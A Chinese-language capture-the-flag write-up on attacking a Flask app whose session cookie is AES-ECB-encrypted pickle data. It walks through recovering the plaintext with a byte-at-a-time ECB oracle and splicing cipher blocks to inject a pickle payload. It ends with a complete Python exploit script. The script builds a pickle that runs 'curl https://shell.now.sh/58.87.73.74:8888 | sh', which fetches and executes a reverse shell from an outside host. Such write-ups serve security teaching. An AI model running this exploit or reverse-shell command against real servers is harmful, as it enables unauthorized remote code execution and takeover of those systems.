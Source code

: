 ### Step One

每个题目的第一步都是要看网站的正常功能, 在这个题目里面提供了登录, 注册, 在注册之后, 发现了一个 world 的路由, 可以进行花式投票, 然而这个并没有什么卵用

在那个 world 列表的页面, 给了几个提示, 能看到有`Session`, `Crypto`, `RCE`, `AES`几个可能的关键词.

根据题目名字, Flask, 那么应该是客户端 session 了, 但是看了一下并不是 flask 客户端 session 的格式, 根据提示的内容, 大概可以猜想是 AES 加密了.

### Step Two

对 AES 加密方式的分析, 通过注册一个超长的用户名, 比如`testXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX`

发现保存的 session 变成了
`06fb3fe6acb4210fa25a5e14067598d39f0f062970b24c6c57568a034b77f912a543b623625b1bbcd11e117f35ea73e0a543b623625b1bbcd11e117f35ea73e0a543b623625b1bbcd11e117f35ea73e0c13524406f0b236cd6159fe82aab3f67`

而里面包含有三个重复的`a543b623625b1bbcd11e117f35ea73e0`串, 那么根据题目中提到的`AES`, 基本上可以断定这个题是把`AES-ECB-128(some-informatin, username, more-information)`作为了 session 发送给客户端的. 那么我们不妨看看`more-information`具体是个什么东西.

### Step Three

通过写一个脚本, 无限注册用户, 这里推荐用户名前面加一个由任意字符串组成的 random 串, 防止跟别人注册的东西重复

通过注册`username='random'+'X'*n`的字符串, 我们发现在`n=45`字符串长度为 51 时, cookie 中刚好出现了重复的串, 此时可以推断出, 重复的部分为密钥对'X'\*16 的加密结果

```
3a38726abb86b26cc6902bb1de63cc7729fd68eadcf87d6a7c84e78c95a80f76d96fc4d430bedfb2210a84ffcfdbdb64d96fc4d430bedfb2210a84ffcfdbdb64aa456af6fa1a86a34ae54912793ba016

d96fc4d430bedfb2210a84ffcfdbdb64
```

username[18:34] username[34:50]对应了重复的串, 而最后的 32 位十六进制编码的数则是对`more-information`的加密结果了

因为在 AES-ECB-128 加密方式中`AES-ECB-128('X'*15 + more-information[0]) == AES-ECB-128('X'*15 + c)`, 通过编写代码, 我们可以恢复 c 的值, 然后恢复出整个`more-information`串.

为: `b'q\x01Ne.\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00'`

### Step Four

从 tail 中我们可以猜想到使用的编码方式为 pickle

如果要搞定这部分, 需要对 pickle 的编码格式有一定的了解. 从恢复出的 tail 可以看出,

`q\x01`为前一个的结束
`N` -> `None`
`e.` -> 闭合

那我们就可以构造出一个 payload, 发送给服务器

### Step Five

直接看代码里面的 step 4+吧, 这里因为 pickle 在格式化字符串的时候会将字符串的长度写在里面, 所以我们的 payload 不能直接运行, 需要将 username 补全到正确的长度, 让 pickle 认为 username 已经结束, 需要进行下一个部分的解析了.

而在 AES-ECB 中对于相同字符串的加密结果不会变, 那就导致了我可以直接用前面用于测试的`'X'*16`的加密后对应的字符串用来补全, 也就是代码中 L77-82 的作用.

然后 pickle 才会开始进行下一个对象, 也就是我们 payload 的解析, 从而完成 RCE.

## Solution

解题所需代码如下:

```python=
import requests
import random
import pickle
import os
import struct
import collections

url = "http://127.0.0.1:8083"

def register(username, password):
    while True:
        try:
            prefix = bytes([random.randint(0x20, 0x7e) for i in range(6)])
            s = requests.session()
            req = s.post(url+"/register", data={"username": prefix+username, "password":password})
            return s.cookies.get_dict()
        except (KeyError, requests.exceptions.ConnectionError):
            pass

def split32_check(cookie):
    g = [cookie[i:i+32] for i in range(0, len(cookie), 32)]
    if len(list(g)) != len(set(g)):
        l = [item for item, count in collections.Counter(g).items() if count > 1]
        return l[0]
    return None

def check_n():
    for i in range(200):
        cookie = register(b'X'*i, 'testpassword')["session"]
        if not split32_check(cookie):
            continue
        else:
            print("n =", i)
            print("Cookie =", cookie)
            return i, split32_check(cookie)

def restore_tail():
    tail = b""
    while len(tail)!=16:
        for c in range(0, 255):
            username = bytes([random.randint(0x20, 0x7e) for i in range(12)])
            username = username+ (16 - len(tail) - 1) * b'X' + tail + bytes([c])
            username = username + ((16 - len(tail) - 1) * b'X')
            cookie = register(username, 'testpassword')['session']
            if split32_check(cookie):
                tail+=bytes([c])
                print("tail now: ", tail)
                break
    return tail


class Shell(object):
    def __reduce__(self):
        return (os.system, ("bash -c 'curl https://shell.now.sh/58.87.73.74:8888 | sh'",))

def gen_payload(cmd):
    payload = b'q\x01' # 结束前一个字符串
    payload += b"cposix\nsystem\n(X"+struct.pack('<I', len(cmd))+cmd+b"tR" #payload_forwin
    payload += b"e.\x00\x00\x00\x00\x00" # 闭合+ pickle结束
    return payload

if __name__ == "__main__":
    # Step One
    # check_n()
    n, repeat = check_n()
    print(repeat)
    # Step Two
    # tail = restore_tail()
    # print(tail)
    # tail = b'q\x01Ne.\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00'
    # Step Three
    payload = gen_payload(b"curl https://shell.now.sh/58.87.73.74:8888 | sh")
    # Step Four
    payload += b'\x00'*((16 - len(payload) % 16) % 16) # 补齐到16整数倍
    username = bytes([random.randint(0x20, 0x7e) for i in range(n-32)])
    username += payload
    cookie = register(username, 'password')["session"]
    new_cookie = cookie[:32]
    for i in range(int(len(payload) / 16)):
        new_cookie += repeat

    new_cookie += cookie[32:]
    req = requests.get(url, cookies={"session":new_cookie})
```
